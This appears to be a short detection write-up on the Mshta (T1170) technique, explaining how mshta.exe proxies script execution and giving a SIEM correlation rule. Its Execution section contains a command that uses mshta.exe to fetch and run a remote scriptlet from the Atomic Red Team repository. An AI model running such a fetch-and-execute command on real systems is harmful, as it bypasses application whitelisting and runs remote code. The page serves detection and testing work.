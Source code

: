 ----------------------------------------------------------------------------------------------------------------
Technique Description: Mshta (T1170)
------------------------------------
Mshta.exe is used to execute Microsoft HTML Applications (HTA). Attackers use mshta.exe to proxy execution of malicious files and Javascript or VBscript by going through Windows utility.  Mshta.exe can bypass application whitelisting.

Assumptions 
-------------
We assume that the attacker already has access to the target machine to run the mshta.exe command as a proxy to run a script.

Execution
-------------
From cmd line: mshta.exe javascript:a=(GetObject('script: https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1170/mshta.sct')).Exec();close();

 Detection 
-------------
Process monitor to monitor for execution of mshta.exe using command line raw or an obfuscated script.

Visibility 
-------------
mshta.exe

### Filter/ Correlation Rule ###
EventCode=4658 OR EventCode=3 AND mshta.exe 
![mshta](https://user-images.githubusercontent.com/32250546/55584524-5b93d480-56f2-11e9-9e99-863e684054c4.png)
